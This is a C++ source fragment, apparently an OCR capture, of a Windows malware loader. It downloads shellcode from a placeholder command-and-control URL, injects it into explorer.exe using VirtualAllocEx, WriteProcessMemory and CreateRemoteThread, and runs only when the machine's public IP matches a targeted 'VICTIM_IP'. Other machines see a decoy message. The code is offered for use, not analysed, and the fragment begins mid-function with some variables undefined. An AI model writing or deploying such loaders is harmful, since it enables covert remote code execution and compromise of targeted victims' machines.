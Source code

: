```cpp
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, explorer.exe-pid);
    const char* c2URL = "http://yourip/index.raw";
    IStream* stream;
    char buff[YOURSHELLCODESIZE];
    unsigned long bytesRead;
    string s;
    URLOpenBlockingStreamA(0, c2URL, &stream, 0, 0);

    while (true) {
        stream->Read(buff, YOURSHELLCODESIZE, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    memAddr = VirtualAllocEx(hProcess, NULL, dwSize, flAllocationType, flProtect);
    WriteProcessMemory(hProcess, memAddr, buff, dwSize, &bytesOut);
    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    stream->Release();
    return 0;
}

BOOL checkIP() {
    const char* websiteURL = "https://ifconfig.me/ip";
    IStream* stream;
    string s;
    char buff[35];
    unsigned long bytesRead;
    URLOpenBlockingStreamA(0, websiteURL, &stream, 0, 0);
    while (true) {
        stream->Read(buff, 35, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    if (s == "VICTIM_IP") {
        return TRUE;
    }
    else {
        return FALSE;
    }   
}



int main() {
    if (checkIP() == TRUE) {
        downloadAndExecute();
    }
    else {
        cout << "HTTP/418 - I'm a teapot!";
    }
    return 0;
}
```
